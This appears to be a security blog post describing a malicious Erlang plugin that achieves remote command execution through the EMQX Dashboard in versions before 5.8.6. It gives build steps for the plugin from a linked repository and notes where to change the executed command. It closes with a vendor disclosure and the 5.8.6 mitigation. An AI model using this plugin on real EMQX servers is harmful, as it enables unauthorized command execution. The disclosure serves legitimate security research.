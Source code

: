 ```yaml
---
layout: post
title: RCE via malicious plugin in EMQX Dashboard
excerpt_separator: <!--more-->
---
```


This is a malicious plugin for EMQX Dashboard which allows to execute commands remotely in versions below 5.8.6. Written in Erlang, it is based on one of the latest releases of the EMQX plugin template repository.

<!--more-->


Useful links:

- [EMQX-RCE](https://github.com/ricardojoserf/emqx-RCE): Repository containing the malicious plugin code.

- [EMQX Dashboard](https://github.com/emqx/emqx-dashboard): The affected software, vulnerable until version 5.8.5 (included).

- [EMQX plugin template repository](https://github.com/emqx/emqx-plugin-template): Template for legitimate plugins (>99,9% of the code).

- [EMQX Docs](https://docs.emqx.com/en/emqx/latest/deploy/install-docker.html): Instructions to launch a Docker image if you want to give this a try.

<br>

----------------------

## Plugin Compilation

1. Install all the necessary dependencies, Erlang and rebar3. In the latest Kali release (Kali 2024.4) you can use:

```shell
sudo apt update
sudo apt install -y build-essential autoconf libncurses5-dev libssl-dev \
    libwxgtk3.2-dev libgl1-mesa-dev libglu1-mesa-dev libpng-dev \
    libssh-dev unixodbc-dev cmake
git clone https://github.com/asdf-vm/asdf.git ~/.asdf --branch v0.13.1
echo '. "$HOME/.asdf/asdf.sh"' >> ~/.bashrc
echo '. "$HOME/.asdf/completions/asdf.bash"' >> ~/.bashrc
source ~/.bashrc
asdf --version
asdf plugin-add erlang https://github.com/asdf-vm/asdf-erlang.git
asdf install erlang 25.3
asdf global erlang 25.3
wget https://s3.amazonaws.com/rebar3/rebar3
chmod +x rebar3
sudo mv rebar3 /usr/local/bin/
```

2. Create the necessary directory and clone the plugin repository:

```shell
mkdir -p ~/.config/rebar3/templates/emqx-plugin-template
git clone https://github.com/ricardojoserf/emqx-RCE ~/.config/rebar3/templates/emqx-plugin-template
```

3. (Optional) Modify the command to be executed by updating line 47 in "src/emqx_plugin_template.erl":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/emqx/Screenshot_1.png)

4. Generate the plugin as a tar.gz file:

```shell
rebar3 new emqx-plugin my_emqx_plugin
make -C my_emqx_plugin rel
cp my_emqx_plugin/_build/default/emqx_plugrel/my_emqx_plugin-1.0.0.tar.gz . 
```

5. Install and run via the EMQX Dashboard under the "Plugin" section.

<br>

----------------------

## Disclosure

Following discussions with the EMQX security team in February and March 2025, they confirmed that this is not considered a vulnerability but rather a "feature" and have no objections to making this repository public.

However, starting from version 5.8.6 (released on 25/3/25), this feature will be mitigated by introducing "a CLI command to explicitly allow the package before installing a plugin via the HTTP API or Dashboard, improving security and preventing unauthorized installations" ([source](https://docs.emqx.com/en/emqx/latest/changes/changes-ce-v5.html#_5-8-6)).

Therefore, in earlier versions having access to the EMQX Dashboard you can achieve RCE, but in versions after 5.8.6 you will get this error:

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/emqx/Screenshot_2.png)


<br>
